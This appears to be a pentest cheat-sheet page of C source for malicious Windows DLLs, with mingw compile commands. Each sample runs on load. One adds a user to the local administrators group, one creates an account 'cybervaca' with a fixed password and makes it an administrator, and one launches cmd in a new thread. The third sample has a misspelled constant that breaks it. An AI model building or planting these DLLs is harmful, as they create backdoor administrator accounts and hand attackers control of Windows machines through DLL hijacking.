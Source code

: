 ```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
if (dwReason == DLL_PROCESS_ATTACH){
system("cmd.exe /k net localgroup administrators user /add");
ExitProcess(0);
}
return TRUE;
}
```

```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
exit(0);
return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
owned();
return 0;
}
```

```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
switch (ul_reason_for_call){
case DLL_PROCESS_ATTACH:
CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DEATCH:
break;
}
return TRUE;
}
```
